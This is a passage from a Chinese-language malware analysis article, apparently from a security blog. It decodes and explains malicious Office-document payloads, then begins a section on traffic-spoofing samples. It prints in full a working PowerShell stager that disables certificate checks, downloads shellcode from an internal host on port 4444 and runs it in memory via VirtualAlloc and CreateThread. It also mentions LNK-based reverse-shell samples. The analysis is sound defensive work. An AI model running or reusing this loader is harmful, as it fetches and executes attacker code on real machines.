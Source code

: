 解码后的内容为：

```
$q = @"
[DllImport("kernel32.dll")] public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")] public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpP
arameter, uint dwCreationFlags, IntPtr lpThreadId);
"@
try{$d = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789".ToCharArray()
function c($v){ return (([int[]] $v.ToCharArray() | Measure-Object -Sum).Sum % 0x100 -eq 92)}
function t {$f = "";1..3|foreach-object{$f+= $d[(get-random -maximum $d.Length)]};return $f;}
function e { process {[array]$x = $x + $_}; end {$x | sort-object {(new-object Random).next()}}}
function g{ for ($i=0;$i -lt 64;$i++){$h = t;$k = $d | e;  foreach ($l in $k){$s = $h + $l; if (c($s)) { return $s }}}return "9vXU";}
[Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};$m = New-Object System.Net.WebClient;
$m.Headers.Add("user-agent", "Mozilla/4.0 (compatible; MSIE 6.1; Windows NT)");$n = g; [Byte[]] $p = $m.DownloadData("https://192.168.0.105:4444/$n
" )
$o = Add-Type -memberDefinition $q -Name "Win32" -namespace Win32Functions -passthru
$x=$o::VirtualAlloc(0,$p.Length,0x3000,0x40);[System.Runtime.InteropServices.Marshal]::Copy($p, 0, [IntPtr]($x.ToInt32()), $p.Length)
$o::CreateThread(0,0,$x,0,0,0) | out-null; Start-Sleep -Second 86400}catch{}

```

脚本的功能是通过g函数随机生成四位的字符，从内网网址下载后加载执行`https://192.168.0.105:4444/xxxx`（其中xxxx为随机四位字符）

这里连接的是192.168.0.105为内网IP，此样本很可能是渗透者进行内网渗透攻击的测试样本。此类样本还有很多：

*   eae0906f98568c5fb25b2bb32b1dbed7

![p14](http://drops.javaweb.org/uploads/images/e4a2f959d2834c59a1b5ee54814608d3d7c83461.jpg)

*   1a42671ce3b2701956ba49718c9e118e

![p15](http://drops.javaweb.org/uploads/images/bdc3a3ec38bdf7cf923ddc68363147a167b2493d.jpg)

*   496ed16e636203fa0eadbcdc182b0e85

![p16](http://drops.javaweb.org/uploads/images/2bcc2005bc7dd9e999a8bf1e505a8643faf2dc75.jpg)

使用LNK文件，建立反弹shell的样本

![p17](http://drops.javaweb.org/uploads/images/bbb804f8a7a86895033f6b94252dae3cfb0910a6.jpg)

### 流量欺骗

为了快速提升网站流量、Alexa排名、淘宝网店访问量、博客人气、每日访问IP、PV、UV等，有些网站站长会采取非常规的引流方法，采用软件在后台模拟人正常访问网页的点击动作而达到提升流量的目的。

样本MD5：5f8dc4db8a658b7ba185c2f038f3f075

文档打开后里面只有“test by c”这几个文字
